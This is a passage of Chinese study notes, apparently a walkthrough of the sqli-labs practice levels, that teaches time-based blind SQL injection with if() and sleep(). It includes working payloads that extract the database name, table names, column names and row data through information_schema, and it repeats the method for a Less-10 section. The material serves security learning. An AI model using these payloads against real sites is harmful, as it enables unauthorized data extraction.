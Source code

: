 所以可以使用`'`来闭合它然后使用sleep函数来进行时间盲注

##### 注入方式

python脚本盲注（时间型）

- 因为页面永远回显一个页面，所以根据页面刷新的速度来判断输入语句是否正确，以此来获取数

- 时间盲注和布尔盲注差不多，只是判断的依据不同(根据页面刷新的速度)，多了sleep()函数

- ```php
  if表达式：if(expr1,expr2,expr3)
  如果expr1是true(expr1 <> 0 and expr1 <> NULL),则 if()的返回值为expr2; 否则返回值则为 expr3
  sleep(n):让此语句运行n秒钟
  可以通过if表达式和sleep（）函数的应用，通过语句运行时间来判断正确信息
  ```

  

##### 注入步骤

- 爆数据库：`payload：1'and if(length(database())={},sleep(2))#`判断数据库的长度，正常回显，那么就是数据库长度正常

  `payload：1' and if(ascii(substr(database(),1,1))<113,sleep(2),0) #`判断数据库的第一个字母，回显正常就是正确的，不断尝试。(第一个1代表第几个字母)

- 爆数据表：`payload：1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<113,sleep(2),0) #`操作同爆库名一样，需要不断尝试（先使用大于小于来大致判断位置）
- 爆字段：`payload：1' and if(ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 0,1),1,1))<113,sleep(2),0) #`（先使用大于小于来大致判断位置）
- 爆数据：`payload：1' and if(ascii(substr((select concat(列1,0x3a,列2..) from 表名 limit 0,1),1,1))<113,sleep(2),0) #`

## Lsee-10

##### 注入类型

时间型盲注

##### 注入点

- 无论输入什么东西，页面都只有回显一个页面，所以只能使用时间盲注
- 再输入`?id=1'and sleep(2) --+`，页面延迟了2秒显示

所以可以使用`'`来闭合它然后使用sleep函数来进行时间盲注

##### 注入方式

python脚本盲注（时间型）

- 因为页面永远回显一个页面，所以根据页面刷新的速度来判断输入语句是否正确，以此来获取数

- 时间盲注和布尔盲注差不多，只是判断的依据不同(根据页面刷新的速度)，多了sleep()函数

- ```php
  if表达式：if(expr1,expr2,expr3)
  如果expr1是true(expr1 <> 0 and expr1 <> NULL),则 if()的返回值为expr2; 否则返回值则为 expr3
  sleep(n):让此语句运行n秒钟
  可以通过if表达式和sleep（）函数的应用，通过语句运行时间来判断正确信息
  ```
